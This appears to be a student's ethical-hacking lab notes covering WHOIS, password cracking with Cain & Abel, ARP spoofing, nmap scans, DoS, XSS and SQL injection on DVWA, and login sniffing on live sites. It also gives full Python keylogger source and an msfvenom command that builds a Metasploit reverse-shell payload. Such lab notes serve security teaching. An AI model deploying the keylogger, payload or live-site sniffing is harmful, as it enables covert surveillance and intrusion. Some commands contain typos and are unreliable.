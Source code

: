 eh

1]  Use Google and Whois for Reconnaissance. 

who.is
WHOIS (pronounced as the phrase "who is") is a query and response protocol 
that is widely used for querying databases that store the registered users
 or assignees of an Internet resource, such as a domain name, an IP address
 block or an autonomous system, but is also used for a wider range of other 
information. 



2] Use CrypTool to encrypt and decrypt passwords using RC4 algorithm.

cryptool 
CrypTool is an open-source project that focuses on the free e-learning software CrypTool
 illustrating cryptographic and cryptanalytic concepts.
CrypTool implements more than 400 algorithms.
CrypTool is worldwide the most widespread e-learning software in the field of cryptology

RC4 algorithm
RC4 means Rivest Cipher 4 invented by Ron Rivest in 1987 for RSA Security. 
It is a Stream Ciphers. Stream Ciphers operate on a stream of data byte by byte. 
RC4 stream cipher is one of the most widely used stream ciphers 
because of its simplicity and speed of operation.
steps:-->Write a text in the file .go to Encrypt/Decrypt >Symmetric(modern)>RC4
           key enter-->8bit -->click on encrypt
ii)analysis --> symmetric (mordern) RC4 --> brute force analysis (result) --> click on start
encrpyted data will be there



3] Use Cain and Abel for cracking Windows account password using Dictionary attack
 and to decode wireless network passwords

steps:i) Open Cain & Abel →Click Hash Calculator→ Enter the Password to Convert.

**dictionary attack --> in the empty field paste the value you have just converted(md5 value)
then right clickon value--> dictionary attack-- dialog box will appear click on file
-->add to list--> wordlist--> check all the option--> start

**brute force attack --> Right click on the value→ brute force attack→dialog box will appear 



4] Run and analyze the output of the commands on Linux – ifconfig, ping, netstat,traceroute

1.ifconfig:
ifconfig(interface configuration) command is used to initialize an interface assign.
If Address to interface and enable or disable interface on demand with this command 
you can view IP address and Hardware/MAC address assign to interface.

2.ping www.google.com
PING(Packet Internet Groper) command is the best way to test the connectivity
 between two nodes. Whether it is Local Area Network (LAN) or Wide Area Network (WAN).
Ping use ICMP (Internet Control Message Protocol) to communicate to other devices. 

3.netstat -r
 (Network Statistics) commands display connector info, routing table information etc. 
To displays info routing table information use opton as -r

4.traceroute www.youtube.com or traceroute 4.2.2.2
traceroute is a network troubleshooting utility which shows number 
of hops taken to reach destination also determine packets travelling path.
 Below we are tracing route to Global DNS server IP address and able to reach 
destination also shows path of that packets is travelling.




5]Perform ARP Poisoning in Windows.

How does ARP Poisoning attack work?
ARP Poisoning (also known as ARP Spoofing) is a type of cyber attack carried 
out over a Local Area Network (LAN) that involves sending malicious ARP packets 
to a default gateway on a LAN in order to change the pairings in its IP to MAC address
 table. ARP Protocol translates IP addresses into MAC addresses.
steps:i)arp -a

ipconfig/all

arp  -s ip-address typ  8c-89-a5-ff-ff

arp -a 

arp -d  ip-address typ

arp -a




6]Use NMAP scanner to perform port scanning of various forms

ACK (nmap -sA -T4 scanme.nmap.org)==It never determines open (or even open filtered) ports. It is used to map out 
firewall rulesets, determining whether they are stateful or not and which ports are filtered.

FIN (nmap -sF -T4 scanme.nmap.org)
FIN Sets just the TCP FIN bit

NULL (nmap -sN -p 22 scanme.nmap.org)
NULL Does not set any bits (TCP flag header is 0)

SYN (namp -sN -p 22,113,139 scanme.namp.org)
  SYN scan is the default and most popular scan option for good reason. 
It can be performed quickly, scanning thousands of ports per second
 on a fast network not hampered by intrusive firewalls

XMAS (target 8.8.8.8  command--> nmap -sX 8.8.8.8)
Sets the FIN, PSH and URG flags, lighting the packet up like a Christmas tree






7] Use Wireshark (Sniffer) to capture network traffic and analyze

Wireshark is a network protocol analyzer, or an application that captures packets from a
 network  connection, such as from your computer to your home office or the internet.
 Packet is the name  given to a discrete unit of data in a typical Ethernet network. 
Wireshark is the most often-used packet sniffer in the world. Like any other 
packet sniffer,  Wireshark does three things: Packet Capture,Filtering,Visualization.

steps:- i)Open wireshark and then select wifi/ethernet capture.

ii)Now go to www.techpanda.org and login using username and password 

iii) type http in filter

iv) click on hypertext transfer protocol you will get loginn details






8] Use Nemesis to launch DoS attacker

Nemesis is a command-line network packet crafting and injection utility
 for UNIX-like and  Windows systems. Well suited for testing Network Intrusion 
Detection Systems, firewalls, IP  stacks and a variety of other tasks. As a command-line 
driven utility, it is perfect for automation  and scripting. 
Nemesis can natively craft and inject ARP, DNS, ETHERNET, ICMP, IGMP, IP, OSPF, RIP,  TCP and UDP packets.  

steps:- i) 
Open CMD with Administration Privalages → Change the path where software is loacted >>>NEMESIS.exe 





9]Simulate persistent cross-site scripting attack

Cross-site scripting attack:
Cross-site scripting, a security exploit in which the attacker inserts malicious 
client-side code into webpages, has been around since the 1990s and most major websites 
like Google, Yahoo and Facebook have all been affected by cross-site scripting flaws
 at some point. Attacks exploiting XSS vulnerabilities can steal data, take control 
of a user's session, run malicious code, or be used as part of a phishing scam.

steps:- i)open xampp and mysql and apache start

ii)https://dvwa.co.uk/ download dvwa file and extract in htdocs ..

iii)Now go to config file in dvwa and open the .dist file and clear the password and give username ‘root’ and save as phpfile

iv)save it as config.inc.php
Then go to browser and give the link http://www.localhost/DWVA_master/setup.php it will open the below window

v)Click on Create/Reset Database it will open the below window in that
window give the username ‘Admin’ and password ‘password’

vi)Now go to DVWA Security and set as low Click on submit

vii)) Now go to XSS(Stored)

Give the name that you want and Message in html format
test 
<b>hello</b>

click on sign guestbook 

again add script<script>alert("hacked website") and run again and give script...











10]  Session impersonation using Firefox and Tamper Data add-on.

steps:-i)1.Open Mozilla Firefox. And go to Add-ons

ii) 2.Then search for “tamper data”

3.Now click on “Tamper data for FF Quantum”

4.Click on Add to Firefox

5.Open new tab and search for www.razorba.com

6.Select any item

7.Click on “Add to Cart”

8.Then click on “Proceed to checkout”.

9.Now click on “One Day”

10.Then click on the blue icon at the right side of the page

11.Now click on “Yes”

12.Click on “PayPal”

ok-->ok-->ok-->






11]Perform SQL injection attack. 

SQL injection is a code injection technique, used to attack
 data-driven applications, in which malicious SQL statements 
are inserted into an entry field for execution (e.g., to dump
 the database contents to the attacker). SQL injection must exploit 
a security vulnerability in an application's software, for example, 
when user input is either incorrectly filtered for string literal escape 
characters embedded in SQL statements or user input is not strongly typed
 and unexpectedly executed. SQL injection is mostly known as an attack
 vector for websites but can be used to attack any type of SQL database. 

steps:- i)open xampp and mysql and apache start

ii)https://dvwa.co.uk/ download dvwa file and extract in htdocs ..

iii)Now go to config file in dvwa and open the .dist file and clear the password and give username ‘root’ and save as phpfile

iv)save it as config.inc.php
Then go to browser and give the link http://www.localhost/DWVA_master/setup.php it will open the below window

v)Click on Create/Reset Database it will open the below window in that
window give the username ‘Admin’ and password ‘password’

 vi)then go sql injection and perform in user id
 enter one by one...
 1=1 ,1 ,2,3,4,5,2=2,,2*
 done

12]Create a simple keylogger using python.

Source code:
from pynput.keyboard import Key,Listener

import logging

log_dir=""

logging.basicConfig(filename=(log_dir+"key_log.txt"),level=logging.DEBUG,format='%(asctime)s:%(message)s:')

def on_press(key):

    logging.info(str(key))

with Listener(on_press=on_press)as listener:

    listener.join()

**in terminal command: pip install pynput

run program then
Open Chrome and search anything 
you will get text file as output in same path...




13]Using Metasploit to exploit (Kali Linux) 

Kali Linux is a debian derived Linux distribution designed for digital forensics
 and penetration testing. Kali Linux comes with a number of tools aiding the
 purpose of penetration testing and network security. Kali Linux comes pre-installed 
with Metasploit Framework. 

step I)Before starting Kali Linux on your Virtual Machine go to the Setting->Network and 
set the Adapter as a Bridged Adapter

ii)After that start your virtual machine 

Step-2) Open Kali-Linux Terminal and Check the IP address of your machine using the below command 
>ifconfig 

iii) Start the postgresql service using the below command 
>service postgresql start 

Step-4) Then go to the console window of Metasploit using below command $msfconsole 

Step-5) Now host your msfvenom on the specific IP address to start Metasploit using below command 
>msfvenom  -p windows/metrpreter/reverse_tcp LHOST=192.168.0.101 LPORT=4444 -f exe >kale.exe 

6)Change the directory  >use exploit/multi/handler 
>set payload windows/meterpreter/reverse_tcp 

>set LHOST=192.168.0.101 

>set LPORT=4444 

>exploit

After that go to your windows and run that exe (Kale.exe) file then the session 
will start on your virtual machine 

Step-8) When the session will start then give the below command to check the your 
Metasploit is working or not $sysinfo 

Conclusion 

In conclusion, Metasploit framework is a powerful tool for exploiting a remote 
target machine. With more than 900 attacks obtained by multiple combinations 
of payloads and exploit types, the ever-increasing need for patching the 
vulnerabilities in the system can be dealt with a great deal of information 
about them and risk of an attack happening by exploiting a particular vulnerability. 



